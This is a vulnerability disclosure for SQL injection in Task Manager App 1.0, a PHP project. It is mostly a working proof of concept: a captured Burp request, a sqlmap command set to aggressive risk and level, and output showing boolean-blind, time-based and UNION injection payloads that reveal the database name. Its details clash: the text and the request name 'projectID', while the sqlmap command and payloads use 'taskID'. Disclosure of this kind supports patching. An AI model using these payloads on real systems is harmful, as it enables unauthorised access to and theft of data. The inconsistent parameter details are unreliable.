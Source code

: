 # Task Manager App - SQL Injection - 2
+ **Exploit Title:** Task Manager App - SQL Injection - 2
+ **Date:** 2024-02-02
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/task-manager-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Task Manager App 1.0 allows SQL Injection via the 'projectID' parameter at "/TaskManager/EditProject.php?edit=1&projectID=2". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/TaskManager/"
+ Click on the Tasks button
+ Then click 'Edit' button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /TaskManager/EditProject.php?edit=1&projectID=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'taskID' parameter to dump the database.
```
sqlmap -r r.txt -p taskID --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: taskID (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: edit=1&taskID=2' AND 1616=(SELECT (CASE WHEN (1616=1616) THEN 1616 ELSE (SELECT 4410 UNION SELECT 6898) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: edit=1&taskID=2' AND (SELECT 9057 FROM (SELECT(SLEEP(5)))MRRF)-- hBYo

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: edit=1&taskID=-1797' UNION ALL SELECT NULL,NULL,CONCAT(0x7171766b71,0x5067554356487a4e6c53506c635469456d476a55477675654555645a58564b58504f687065557666,0x71716b7171),NULL,NULL,NULL-- -
---
[20:54:18] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:54:18] [INFO] fetching current database
current database: 'TaskManager'
```
+ current database: `TaskManager`

![Ekran görüntüsü 2024-02-02 045540](https://github.com/BurakSevben/CVEs/assets/117217689/92ebfc97-ba32-48d7-aaab-ec3c02cdfad1)

